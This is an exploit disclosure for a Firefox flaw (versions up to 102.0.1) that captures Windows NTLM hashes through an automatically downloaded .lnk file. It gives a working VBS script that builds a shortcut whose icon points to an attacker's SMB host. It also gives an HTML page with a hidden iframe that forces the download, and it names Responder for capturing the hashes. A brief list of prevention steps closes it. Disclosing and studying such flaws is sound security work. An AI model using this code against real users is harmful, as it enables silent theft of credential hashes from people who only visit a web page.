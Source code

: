 # Mozilla FireFox - NTLM Hashes capture via lnk download
```
Date: 07/09/2022
Exploit Author: AkuCyberSec (https://github.com/AkuCyberSec)
Vendor Homepage: https://www.mozilla.org/
Software Link: https://www.mozilla.org/en-US/firefox/all/#product-desktop-release
Version: <= 102.0.1
Tested on: FireFox 101.0.1, 102.0.1 | Windows 10 64-bit
Proof of concept: https://youtu.be/Ml_jE-pwisI
```

## VULNERABILITY DESCRIPTION
This vulnerability allows an attacker to capture NTLM hashes just by making the victim visit a web page.
Before writing any code, let's understand how it works.

Mozilla FireFox, just like other browsers, comes with a default settings: it automatically downloads files in the Downloads folder.
Usually this would not be a big problem but there is something that makes this default setting very dangerous: the .lnk files can be downloaded without any restriction.
Maybe now you will have some questions.

1. What are .lnk files? 
When you want to create a link to a file or to a folder, Windows creates a file with the extension .lnk
 
2. Why are the .lnk files so dangerous?
These files have a property called "IconLocation". This property tells the OS where to search for the icon.
Icons can be loaded from the local disk (e.g. C:\path\icon.ico), or from an external resource (e.g. a file server like \\fileserver\icon.ico)

Whenever the user opens a folder that contains a .lnk file, Windows automatically tries to get the icon.
The user does not even need to click the .lnk file.

What if the download folder was set on "Desktop"?
The user does not need to open any folder, because Windows would try to get the icon once the download is completed.

### Create the icon
We can crete the icon using several ways.
Here is a VBS script to create the link file on Windows.
Create a .vbs files (e.g. make_link.vbs) with the following code, then execute the file by double clicking it.

```
Set objShell = WScript.CreateObject("WScript.Shell")
Set lnk = objShell.CreateShortcut("evil_link.lnk")
lnk.TargetPath = "" 	' Not required
lnk.Arguments = "" 		' Not required
lnk.Description = "" 	' Not required
lnk.IconLocation = "\\<attacker_ip_address>\pwnd" ' Change attacker_ip_address
lnk.WorkingDirectory = "" ' Not required
lnk.Save
```

The "attacker_ip_address" must be the address of a machine that can capture the NTLM hash (e.g. a Kali machine that runs Responder.py)

### Create the web page to download the file automatically
The .vbs script will create a link file called "evil_link.lnk".
Using the following code, we can create a web page that will automatically download the file.

```
<html>
	<head>
		<title>Pwnd!</title>
	</head>
	<body>
		<h1>Pwnd</h1>
		<iframe id="frame" style="display:none;"></iframe>

		<script>
			document.getElementById('frame').src = "evil_link.lnk"
		</script>
	</body>
</html>
```

### How to prevent
1. Do NOT allow the browser to download anything without the permission
2. If the automatic download can't be disabled, avoid downloading automatically on the Desktop
3. If a .lnk file is downloaded, delete it without opening the folder. It can be deleted from FireFox or using the cmd.
4. After the .lnk is deleted do NOT open the Recycle Bin (it would act as a normal folder). Instead, empty the Recycle Bin.
5. Configure the firewall to connect only to trusted SMB Server
